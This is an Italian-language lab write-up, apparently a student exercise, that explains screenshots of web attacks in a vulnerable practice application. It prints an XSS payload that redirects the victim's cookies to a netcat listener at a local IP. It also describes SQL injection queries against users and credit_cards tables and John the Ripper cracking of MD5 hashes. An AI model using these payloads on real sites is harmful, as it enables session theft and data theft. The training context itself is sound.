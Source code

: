 # LezioneS6_L5

Screenshot 1:  Lo script <script>window.location="http://192.168.50.100:12345/?cookie"+document.cookie</script> imposta la posizione del browser a un URL specifico (http://192.168.50.100:12345/)
               aggiungendo i cookie dell'utente (document.cookie) alla fine dell'URL come parametro.
Screenshot 2:  Il server rimane in ascolto sulla porta 12345. Quando un client si connetterà a questa porta, netcat mostrerà i dati inviati dal client sullo stdout
Screenshot 3:  La stringa è un'attacco di SQL injection per recuperare le informazioni sugli utenti e le password dalla tabella users di un database.
Screenshot 4:  Il comando esguito è una chiamata al programma John the Ripper, un popolare strumento di cracking delle password. Questo comando viene utilizzato per eseguire un attacco di forza bruta o di dizionario per cercare di 
               recuperare le password da un file hash MD5.
Screenshot 5:  Questa stringa è simile allo screenshot 3, dove l'obiettivo è quello di ottenere informazioni sensibili come il numero della carta di credito (ccnumber) e il codice di verifica della carta di credito (ccv) dalla 
               tabella credit_cards.
Screenshot 6:  Questa stringa è un tentativo di attacco di SQL injection, simile allo Screenshot 3 e 5. L'obiettivo sembra essere quello di recuperare informazioni sensibili come i numeri 
               delle carte di credito (ccnumber) e le date di scadenza delle carte di credito (expiration) dalla tabella credit_cards di un database, presumibilmente all'interno di un'applicazione vulnerabile.
Screenshot 7:  Questa stringa esegue un'attacco di SQL injection per ottenere informazioni sulle colonne della tabella credit_cards da uno schema di informazioni (information_schema).
Screenshot 8:  Questa stringa è un attacco di SQL injection per ottenere informazioni sulle tabelle presenti nel database utilizzando lo schema di informazioni (information_schema).
Screenshot 9:  Questa stringa esegue un attacco di SQL injection per ottenere informazioni sulle tabelle presenti nel database utilizzando lo schema di informazioni (information_schema).
Screenshot 10: Questa stringa esegue un attacco di SQL injection per recuperare informazioni sulle colonne della tabella 'users' utilizzando lo schema di informazioni (information_schema)
Screenshot 11: Questa stringa esegue un attacco di Cross-Site Scripting (XSS) inserendo uno script JavaScript malevolo all'interno di un input, come un campo di un modulo web.
               Lo script <script>alert(document.cookie)</script> è progettato per mostrare una finestra di avviso nel browser dell'utente contenente il valore dei cookie del sito web corrente.
Screenshot 12: Questa stringa esegue un'attacco di SQL injection in ambiente security level Medium per recuperare le informazioni sugli utenti e le relative password dalla tabella users di un database. 
               L'obiettivo di questa query è quello di combinare i risultati della condizione 1 = 1 (che è sempre vera) con i risultati della selezione delle colonne user e password dalla tabella users.

